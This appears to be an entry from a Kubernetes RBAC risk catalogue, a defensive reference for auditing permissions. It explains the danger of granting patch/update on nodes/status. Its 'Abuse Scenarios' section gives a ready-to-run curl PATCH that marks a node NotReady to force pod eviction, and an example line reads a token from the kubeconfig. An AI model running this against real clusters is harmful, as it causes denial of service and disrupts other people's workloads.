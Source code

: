```yaml
---
id: 1069
title: "Patch node status cluster-wide"
description: "Allows patching the status of any node in the cluster. This can be abused to mark nodes as (un)healthy or (un)schedulable, impacting workload scheduling, potentially tricking controllers, or causing denial of service."
category: Tampering
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                                              |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------ |
| ID                      | 1069                                                                                                               |
| Name                    | Patch node status cluster-wide                                                                                     |
| Risk Category           | Tampering                                                                                                          |
| Risk Level              | {{< risk High >}}                                                                                                  |
| Role Type               | ClusterRole                                                                                                        |
| API Groups              | core                                                                                                               |
| Resources               | nodes/status                                                                                                       |
| Risky Verb Combinations | [patch] · [update]                                                                                                 |
| Tags                    | {{< tag "DenialOfService" >}} {{< tag "NodeManipulation" >}} {{< tag "SchedulingAbuse" >}} {{< tag "Tampering" >}} |

## Description

Allows patching the status of any node in the cluster. This can be abused to mark nodes as (un)healthy or (un)schedulable, impacting workload scheduling, potentially tricking controllers, or causing denial of service.

## Abuse Scenarios

1. Patch a node's status to mark it as 'NotReady', causing pods to be evicted.

```bash
# Replace <kubernetes-api-server> with your API server address
# Replace <token> with your authentication token
curl -k -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -X PATCH \
  --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"KubeletStopped","message":"Kubelet stopped posting node status."}]}}' \
  https://<kubernetes-api-server>/api/v1/nodes/<node-name>/status
# Example: curl -k -H "Authorization: Bearer $(cat ~/.kube/config | grep token: | awk '{print $2}')" -H "Content-Type: application/json" -X PATCH --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"KubeletStopped","message":"Kubelet stopped posting node status."}]}}' https://127.0.0.1:6443/api/v1/nodes/minikube/status

```
